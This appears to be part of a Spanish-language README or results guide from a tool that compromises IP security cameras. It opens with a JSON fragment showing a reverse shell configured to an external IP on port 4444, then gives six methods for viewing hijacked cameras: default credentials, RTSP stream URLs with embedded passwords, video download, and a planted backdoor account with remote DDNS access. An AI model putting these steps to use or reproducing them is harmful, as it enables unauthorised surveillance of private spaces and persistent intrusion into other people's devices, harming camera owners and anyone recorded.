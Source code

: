 ```json
        "external_connection": {
          "type": "reverse_shell",
          "external_ip": "212.95.62.135",
          "external_port": 4444,
          "status": "configured"
        }
      }
    }
  ]
}
```
**¿Qué significa?** Información completa de cámaras de seguridad accesibles con backdoors implementados

---

## 📹 ¿CÓMO ACCEDER A LAS CÁMARAS DE VIDEO?

### **MÉTODO 1: Navegador Web** 🌐
1. **Abre tu navegador** (Chrome, Firefox, etc.)
2. **Ve a la dirección**: `http://192.168.1.50:80`
3. **Ingresa las credenciales**:
   - Usuario: `admin`
   - Contraseña: `12345`
4. **¡Ya puedes ver la cámara!**

### **MÉTODO 2: URLs Directas** 🔗
- **Vista principal**: `http://192.168.1.50:80/viewer.html`
- **Solo imagen**: `http://192.168.1.50:80/snapshot.cgi`
- **Configuración**: `http://192.168.1.50:80/setup.html`

### **MÉTODO 3: Desde Internet** 🌍
Si configuraste port forwarding:
- **Acceso externo**: `http://TU_IP_PUBLICA:8080`
- **Usa las mismas credenciales** del reporte

### **MÉTODO 4: Software Especializado** 💻
- **VLC Media Player**: Abre red → `rtsp://admin:12345@192.168.1.50:554/stream1`
- **Software de cámaras**: Usa las credenciales del reporte

### **MÉTODO 5: Video Descargado** 📹
- **Archivo de video**: `camera_192.168.1.50_video_1640995200.mp4`
- **Duración**: 5 segundos o 100MB (lo que se cumpla primero)
- **Formato**: MP4
- **Ubicación**: Directorio `camera_videos_TIMESTAMP/`

### **MÉTODO 6: Backdoor de Cámara** 🔧
- **Usuario backdoor**: `backdoor_user`
- **Contraseña**: `Backdoor_2024!`
- **Acceso web**: `http://192.168.1.50:80/doc/page/login.asp`
- **RTSP con backdoor**: `rtsp://backdoor_user:Backdoor_2024!@192.168.1.50:554/Streaming/Channels/101`
- **DDNS remoto**: `backdoor_192_168_1_50.hik-connect.com`
- **Conexión externa**: `212.95.62.135:4444`

---